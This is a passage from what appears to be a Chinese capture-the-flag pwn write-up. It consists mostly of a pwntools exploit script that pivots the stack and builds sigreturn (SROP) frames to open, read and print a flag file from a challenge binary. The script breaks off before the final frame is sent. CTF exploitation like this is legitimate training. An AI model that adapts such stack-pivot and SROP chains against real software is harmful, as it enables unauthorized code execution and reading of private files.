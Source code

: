 [![](assets/1703485159-d0f687fe7a88885c09a31433acb60d0a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231224171047-53239c3c-a23c-1.png)

[![](assets/1703485159-181709b700d8fc3f917d5a38826b50e2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231224171052-564638de-a23c-1.png)

完整exp：

```plain
from pwn import*
io = process('./chall2')
#io = remote('47.108.206.43',37272)
context.log_level='debug'
context(os='linux', arch='amd64')
elf = ELF('./chall2')
syscall2=0x40118A
syscall=0x401060
rax_15 = 0x401193
main = 0x40136e
io.sendafter('easyhack\n','0')

io.sendafter('SUID?\n',b'\x00'*(0x2a)+p64(0x404050+0x30)+p64(0x401417))
io.send(b'\x00'*(0x2a)+p64(0x404050+0x30+0x2a)+p64(0x401417))

io.send(p64(0x404050+0x30+0x2a+0x10)+p64(0x40136e))


payload = b'./flag\x00\x00'.ljust(0x30, b'\x00')
frame = SigreturnFrame()
frame.rdi = constants.SYS_open
frame.rsi = 0x404060
frame.rdx = 0
frame.rcx = 0
frame.rip = syscall
frame.rsp = 0x404198
payload += p64(rax_15)+p64(syscall2)+bytes(frame)

frame = SigreturnFrame()
frame.rdi = constants.SYS_read
frame.rsi = 3
frame.rdx = elf.bss()+0x500
frame.rcx = 0x50
frame.rip = syscall
frame.rsp = 0x4042a0
payload+=p64(rax_15)+p64(syscall2)+bytes(frame)

frame = SigreturnFrame()
frame.rdi = constants.SYS_write
frame.rsi = 1
frame.rdx = elf.bss()+0x500
frame.rcx = 0x50
frame.rip = syscall
frame.rsp = 0x404088
```